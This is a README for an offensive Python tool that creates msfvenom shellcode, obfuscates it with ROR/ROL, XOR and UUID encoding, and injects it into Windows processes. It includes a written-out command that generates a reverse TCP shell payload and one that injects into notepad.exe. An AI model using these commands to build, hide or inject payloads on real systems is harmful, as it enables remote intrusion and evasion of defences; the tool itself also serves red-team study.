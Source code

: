 # ShenCode

A multi purpose tool for shellcode operations

I am developing under Windows. This release brings some compatibility fixes for Kali Linux. `inject` and `ROR2ROL` are Windows dependent. All other features are now available for Kali and maybe other Posix OS.

![[shencode-042.png]]

## Features

### Version 0.4.3

- create
	- create shellcodes with msfvenom
- encode
	- `ROR13` to `ROL` with custom key (only Windows)
	- `XOR` encryption
	- `UUID` obfuscation for shellcodes
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (only Windows)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new inspect option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- automatical compile feature
- integrate more frameworks
- integrate more encoder

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`
### encode shellcode


| Encoder          | Arguments                                                              |
| ---------------- | ---------------------------------------------------------------------- |
| **ROR13 to ROL** | `encode --filename shell.raw --outputfile shell.enc --key 33`          |
| **UUID**         | `encode --filename shell.raw --uuid`                                   |
| **XOR**          | `encode --filename shell.raw --outputfile shell.enc --xor --xorkey 96` |

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte 6 --last-byte 128`
### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`
### output in different styles

#### console output

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

#### inspect output

`python shencode.py output --filename inputfile --syntax inspect`

Output hex in 8 byte: `0x00000008: 48 31 c0 48 89 45 f8 48`

#### write output to a template file

`python shencode.py output --filename inputfile --write templatefile --syntax c`

This command replaces a `!++BUFFER++!` placeholder in the given file e.g.

```cpp
unsigned char buf[] =
!++BUFFER++!
```

will be replaced by the generated shellcode

```cpp
unsigned char buf[] =
"\x90\x01\..\xff";
```

## Config

Make sure your metasploit binary folder is in your PATH variable

## Parameter

Please [refer to the wiki](https://github.com/psycore8/shencode/wiki) for a full parameter list.

| **Command** | **Subcommand** | **Short** | **Description**                                                                       |     |
| ----------- | -------------- | --------- | ------------------------------------------------------------------------------------- | --- |
| create      |                |           | create a shellcode using msfvenom                                                     |     |
|             | --cmd          | -c        | msfvenom command line, use quotation marks and equal sign e.g --cmd=\"-p ...\"        |     |
| encode      |                |           | Shellcode encoding                                                                    |     |
|             | --filename     | -f        | raw input file with shellcode                                                         |     |
|             | --ror2rol      | -r        | encode windows function hashes to ROL                                                 |     |
|             | --key          | -rk       | ROL key for encoding                                                                  |     |
|             | --xor          | -x        | use additional XOR encoding                                                           |     |
|             | --xorkey       | -xk       | XOR key for encoding                                                                  |     |
|             | --uuid         | -u        | Obfuscate Shellcode as UUID                                                           |     |
| extract     |                |           |                                                                                       |     |
|             | --filename     | -f        | binary input file                                                                     |     |
|             | --outputfile   | -o        | name of the outputfile                                                                |     |
|             | --first-byte   | -fb       | first byte to extract                                                                 |     |
|             | --last-byte    | -lb       | last byte to extract                                                                  |     |
| inject      |                |           | inject shellcode                                                                      |     |
|             | --filename     | -f        | raw input file with shellcode to inject                                               |     |
|             | --processname  | -p        | process name to inject                                                                |     |
|             | --startprocess | -s        | if set, process will be started                                                       |     |
| output      |                |           | create formatted output by filename                                                   |     |
|             | --filename     | -f        | raw input file with shellcode                                                         |     |
|             | --lines        | -l        | adding line offsets                                                                   |     |
|             | --syntax       | -s        | formatting the shellcode, choose between `c, casm, cs, hex, inspect, ps1, py`         |     |
|             | --write        | -w        | write output to the given filename (replacing  `!++BUFFER++!` placeholder in the file |     |
| --output    |                |           | formatting the shellcode in C, Casm, C#, Powershell, python or hex                    |     |

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)

